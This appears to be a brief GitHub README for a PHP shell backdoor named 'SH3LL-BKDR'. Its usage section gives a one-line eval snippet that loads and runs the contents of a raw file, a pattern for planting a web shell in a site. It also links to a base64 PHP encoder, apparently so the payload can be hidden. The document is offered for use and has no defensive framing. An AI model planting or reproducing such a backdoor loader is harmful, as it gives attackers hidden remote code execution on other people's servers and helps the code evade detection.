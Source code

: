 ## SH3LL-BKDR

### Usage
```
<?php eval("?>".file_get_contents("link_raw.php"));?>
```
### Encrypt base64
* [Click here](http://phpencoder.atwebpages.com/index.php)
